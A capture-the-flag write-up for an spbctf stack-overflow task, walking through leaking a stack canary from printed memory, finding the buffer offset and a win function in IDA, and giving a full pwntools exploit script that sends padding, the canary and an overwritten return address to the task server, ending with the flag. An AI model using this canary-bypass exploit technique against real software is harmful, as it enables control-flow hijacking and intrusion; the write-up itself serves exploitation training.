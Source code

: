 TASK
__________
You were presented with a piece of the stack. Find a canary in it and move

nc 109.233.56.90 11607

https://pwn.spbctf.ru/tasks/pwn2_mc6
__________

![image](https://user-images.githubusercontent.com/76822573/112986998-e20d1080-916a-11eb-9de6-af5af6e89791.png)

when executing a binary file, you can see that we were immediately given a piece of the stack, which apparently 
contains the stack canary. We need to get it out of there and substitute it in the overflow to avoid the
*** stack smashing detected *** error, which occurs in case of overwriting the stack canary

![image](https://user-images.githubusercontent.com/76822573/112987394-58aa0e00-916b-11eb-821a-2fe51af1c858.png)

for clarity, let's display all the bytes in a group of 8 at once in order to share 64-bit pieces of memory.
In these bytes, it is very easy to notice that there is a stack canary, since there is always a zero byte first,
and after it a large number

in our case, this is memory 0x00 0x6c 0xf8 0x84 0x4c 0xde 0xc3 0xba

However, there are several byte strings that start with a zero byte, so you need to write a script that will
split the string into a list of int and then manipulate each such list.

Let's write a Python3 script using pwntools resources to connect to a binary file or to remotely connect to a server.

from pwn import *

r = remote('109.233.56.90',11607)

#r = process('./stackgift')

win = r.recvuntil('Now')

k = 0

temp = ''

li = list()

win = win[:-4]

for i in win:

    temp = temp + str(i) + ' '
    
    k = k+1
    
    print(hex(i),end=' ')
    
    if k == 8:
    
        print('\n')
        
        k = 0
        
        li.append(temp)
        
        temp = ''
        
#output bytes in a group of 8 and list them

print(li)

print('')

for i in range(0,len(li)):

    if((li[i][0]=='0')):
    
        print(li[i][-2:])
        
        if li[i][2] == '0':
        
            print('')
            
        else:
        
            print(li[i])
            
            kek = li[i]
            
#sorting the received list elements by first zero, and if element 3 ('| 0 || || 0 |') is equal to 0,

then do not remember it

print(kek)

lis = list()

kek = kek[:-1]

x = [int(i) for i in kek.split(' ')]

print(x)

r.interactive()

#convert string to list of int to manipulate the resulting values

we now have a saved canary. It remains to figure out how many bytes need to be overwritten before overwriting
the canary and return address
for this we will use IDA PRO

![image](https://user-images.githubusercontent.com/76822573/112989370-85f7bb80-916d-11eb-955c-2434c3fcb1c3.png)

in this piece of the program, we see that the buffer size is 32, and the write is 128. This is a vulnerability that
we need to exploit

![image](https://user-images.githubusercontent.com/76822573/112989604-c35c4900-916d-11eb-8d8a-254721b92a38.png)

you can see that the char array itself takes 0x20 bytes, after that comes 8 bytes of some unnecessary information,
and starting from 40 bytes our stack canary begins, and we will substitute our resulting value there. But what to
write to the return address? To do this, we need to find the address of the function that gives us the correct answer to the task

we will use IDA PRO again for this

![image](https://user-images.githubusercontent.com/76822573/112990036-4382ae80-916e-11eb-8203-31813a186d2f.png)

it is easy to see the win function, inside which there is a function that opens the flag file
Let's find her address

![image](https://user-images.githubusercontent.com/76822573/112990209-76c53d80-916e-11eb-9798-6894859830f2.png)

the address of our function is 0x401182

Now we can finish writing our exploit and get an answer to the task.

from pwn import *

r = remote('109.233.56.90',11607)

#r = process('./stackgift')

win = r.recvuntil('Now')


k = 0

temp = ''

li = list()

win = win[:-4]

for i in win:

    temp = temp + str(i) + ' '
    
    k = k+1
    
    print(hex(i),end=' ')
    
    if k == 8:
    
        print('\n')
        
        k = 0
        
        li.append(temp)
        
        temp = ''
        

print(li)

print('')

for i in range(0,len(li)):

    if((li[i][0]=='0')):
    
        print(li[i][-2:])
        
        if li[i][2] == '0':
        
            print('')
            
        else:
        
            print(li[i])
            
            kek = li[i]
            


print(kek)

lis = list()

kek = kek[:-1]

x = [int(i) for i in kek.split(' ')]

print(x)

kuk = b''

for i in x:

    kuk = kuk + p8(i)
    
    
#converting list of int to byte string with stack canary value

payload = b'A'*40+kuk+b'A'*8+p64(0x401182)

#40 bytes of trash, kuk = stack canary, 8 bytes of rpb register and 8 bytes for return address, that we change.

r.send(payload)


r.recv()

r.interactive()


![image](https://user-images.githubusercontent.com/76822573/112990748-11be1780-916f-11eb-9bbb-582fdeea4e68.png)

The answer is: spbctf{__bytecode__}
